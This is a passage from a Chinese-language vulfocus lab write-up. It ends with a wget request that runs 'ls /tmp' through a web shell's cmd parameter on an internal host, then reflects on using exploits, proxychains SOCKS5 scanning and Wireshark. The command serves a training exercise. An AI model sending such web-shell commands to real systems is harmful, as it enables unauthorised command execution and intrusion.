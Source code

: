 ```shell
wget "http://192.169.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result ## 保存到/tmp/result中并查看
```
![](./images/发现第五个靶标.png)
* 提交到vulfocus中即可
![](./images/所有的靶标全部拿到.png)

**这样我们就拿到了所有的flag**

## 3.实验反思
* 1、对于第二层内网，我们知道具体的端口，所以直接进行利用即可
* 2、对于漏洞，我们知道具体漏洞类型，所以能直接使用exp和对应的payload来进行利用
* 3、配置好proxychain的sock5代理后，我们就能通过proxychain来实现内网的扫描，但是扫描出来的正确ip也是被过滤的，这一点需要通过wireshark抓取[被害者主机的包](./tcpdump.pcap)手动分析